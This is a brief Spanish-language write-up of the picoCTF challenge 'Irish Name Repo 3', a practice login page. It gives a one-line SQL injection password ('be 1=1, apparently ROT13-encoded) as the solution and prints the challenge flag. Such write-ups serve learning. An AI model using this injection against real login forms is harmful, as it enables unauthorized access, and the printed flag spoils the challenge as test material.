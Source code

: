 # Irish Name Repo 3

## Descripción
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!
## Pistas
Seems like the password is encrypted.
## Solución
```bash
usar una injeccion sql
contraseña: 'be 1=1;
```
## Bandera
picoCTF{3v3n_m0r3_SQL_4424e7af}

## Notas Adicionales 
comando          descripción

## Referencias